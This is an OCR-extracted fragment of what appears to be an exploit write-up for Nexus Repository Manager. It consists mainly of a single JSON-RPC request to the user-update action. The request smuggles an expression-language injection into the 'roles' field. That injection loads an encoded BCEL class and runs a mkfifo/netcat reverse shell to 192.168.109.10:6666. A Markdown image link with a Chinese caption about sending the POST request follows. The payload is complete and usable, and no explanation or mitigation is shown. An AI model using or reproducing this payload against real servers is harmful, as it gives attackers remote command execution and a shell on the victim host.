   ```http
  {"action":"coreui_User","method":"update","data":[{"userId":"admin","version":"20","firstName":"Administrator","lastName":"User1","email":"admin@example.org","status":"active","roles":["${''.class.forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$$$l$8b$I$A$A$A$A$A$A$ff$8dSMS$d3P$U$3d$8f$b6I$J$v$U$K$94$60QA$c5P$uU$E$3fZD$Fq$86$Z$40$87$3a$3a$ZWi$fa$c0$60I$3ai$ca$b0r$e5$7fq$ab$9b$d6$91$d1$a5$L$7f$87$L$fd$P$8ex_Z$3e$8a$ca$d8I$df$cb$bb$f7$9c$7b$eeG$de$d7_$l$3f$D$98$c5$p$F$j$I$c9$I$ab$88$40b$88o$9b$bbf$b6l$3a$5b$d9$c7$c5mn$f9$M$d2$bc$ed$d8$fe$CCH$9fx$a6$m$8aN$Z$8a$8a$$$a8$M$bd$c7$f0$8d$9a$e3$db$3b$9cA$d9$e2$fe$d1a$40$9fX$fd$D$93$97$d1$dd$sU$f0$3d$db$d9$8a$o$ce$mg$8b$b6$93$ad$be$8c$a2$8f$a1$pc$J$c1$7e$V$D$Yd$I$f3$3dn1$e8$fa$8b$d5$d3$dc$fcI$99$t$9ek$f1j$95d$86$Y$G$D$bb$edf$Xk$9b$9b$dc$e3$a5$Nn$96$b8$tc$98A$3b$f4$ad8$95$9aO$91$b8$b9$d3t$xHaD$c6y$V$Xp$b1$ad$ceVp$86n$aa$f3$E$8f$nyXk$7b$c0$bc$C$Nc$a2$bf$97$Y$86$f4$bfBDc$93$b8$o$40$e3$M$89cP3$9b$c0$9f$82$aebBd$p$94$97$3d$cf$f5$9al$Z$93$q$7e$ba$p$8b5$bb$i$U$92FH$E$9fV$91$c55$86$uQJ$ab$b6C$c3$e9o$hN$ab$91$820$a3$e2$Gfi$f4f$a5$c2$9d$SCF$3f$bb$e3m$92A$88$9b$o$c4$z$86$94$bet6$f0$8e$8a$5c$90$97$ef6$9d2$e6$Z$o$7c$d7$y$cf$d0$c8$97$dc$Se$da$p$S$5e$af$ed$U$b9$f7$d4$y$96$c92$fe_$Z$e5$Zb$F$df$b4$5e$ad$99$95$WQY$de$b3x$c5$b7$5d$a7$wc$89$9a$7d$cc9$f2$Q$aa$e0$d6$3c$8b$3f$b2$DJ$90$cc$b4$Ab$Uy$ba1$e2$d7$B$s$ee$M$adw$e94B$3b$a3$3d$92n$80$bd$a7$X$86$FZ$a5$c0$Y$a6u$A$f7$88$o$a0$df$88$s$d3$fe$e6$Dd$e9$TbF$a8$af$a7$60$84$fbz$LFd$b2PGbm$lIc$l$9a1U$c7$b9$GF$h$b8$bc$7e$c2t$b5i$ca$85$f7$916$g$98$caE2ud$8c$9c$f4$F$J$z$a2Iu$5c$8f$xu$cc$3d$7f$7b$f0C$L$ff$cb$f5$5d$8b$d4q$fb$5dP$88$c8t$i$9d$b4F$e9$5b$ed$c2$YTL$n$869t$e3$3e$e2XA$C$W$fa$f1$g$83t$G$f9C$Hd$94d$d0$j$8b$c9H$c9H$GO$g$f8$J$8dl$c3x$d0$aa$7b$91$fe$P$D$95$e5$df$5d$90$g$iv$E$A$A').newInstance().exec('rm -f /tmp/f;mkfifo /tmp/f;/bin/sh -i < /tmp/f 2>&1 | nc 192.168.109.10 6666 > /tmp/f')} "]}],"type":"rpc","tid":10}
  ```

  <img src="picture/nexus_映射_发送POST请求.png" alt="nexus_映射_发送POST请求" style="zoom:33%;" />

